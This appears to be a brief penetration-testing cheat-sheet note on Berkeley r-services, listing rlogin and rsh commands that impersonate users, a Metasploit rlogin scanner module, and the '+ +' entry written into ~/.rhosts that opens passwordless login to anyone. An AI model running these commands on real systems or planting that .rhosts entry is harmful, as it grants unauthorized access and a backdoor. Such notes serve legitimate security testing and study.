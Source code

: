 # R*-Services aka Berkeley Remote ("r") Commands
```
rlogin -i fakedLocUser -l targetUser -p 513 host
rsh -l bin host csh -i  #  untested!!
use auxiliary/scanner/rservices/rlogin_login # metasploit

~/.rhosts  (~/.rlogin)
user host # strict config
+ +  # everyone can conntect from * # echo "+ +" > ~/.rhosts

/etc/hosts.equiv
```

tags: #berkeley_remote #r-service #remote 
